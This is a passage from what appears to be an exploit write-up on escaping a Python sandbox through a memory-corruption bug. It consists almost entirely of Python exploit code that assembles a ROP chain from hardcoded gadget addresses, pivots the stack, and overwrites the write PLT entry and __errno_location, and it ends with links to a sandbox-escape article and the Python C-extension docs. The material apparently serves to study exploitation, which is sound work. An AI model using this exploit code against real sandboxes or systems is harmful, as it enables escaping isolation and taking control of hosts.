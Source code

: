 ```python
write_payload  = p64(pop_rdi)
write_payload += p64(1)
write_payload += p64(pop_rsi)
write_payload += p64(id(target)+0x30)
write_payload += p64(pop_rdx)
write_payload += p64(50)
write_payload += p64(pop_rax)
write_payload += p64(1)
write_payload += p64(syscall)

rop  = read_payload
rop += write_payload


stack_pviot = 0xa42f30
write(stack_pviot,rop)

# 0x0000000000467123 : leave ; ret
leave_ret = 0x00467123 
write_plt = 0x009b3d18

write(write_plt,p64(leave_ret))

# 0x000000000061233e: mov rax, rcx; ret;
mov_rax_rcx = 0x0061233e 
__errno_location = 0x009b3950

write(__errno_location,p64(mov_rax_rcx))

print("A" * (stack_pviot - 8))
```


<a id="org7d66a47"></a>

## Reference

[ 1 ] [python-sandbox-escape-via-a-memory-corruption-bug](https://hackernoon.com/python-sandbox-escape-via-a-memory-corruption-bug-19dde4d5fea5)

[ 2 ] [Extending Python with C or C++](https://docs.python.org/3/extending/extending.html)
